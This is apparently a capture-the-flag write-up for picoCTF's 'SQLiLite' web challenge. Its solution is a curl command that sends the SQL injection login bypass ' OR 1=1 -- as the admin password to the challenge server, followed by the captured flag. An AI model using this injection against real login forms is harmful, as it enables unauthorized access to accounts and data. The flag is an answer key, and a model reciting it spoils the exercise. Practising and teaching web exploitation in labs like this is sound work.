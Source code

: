 # SQLiLite [Web Exploitation] [300 Points] #

## Description ##
Can you login to this website?

Try to login here.

## Hints ##
1. `admin` is the user you want to login
   
## Solution ##

### Step 1: Description ###

![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_loggedin.png)

![](images/webpage_inspect.png)

    curl -s -d "username=admin&password=' OR 1=1 --" http://saturn.picoctf.net:49343/login.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)


**Result**:

    picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
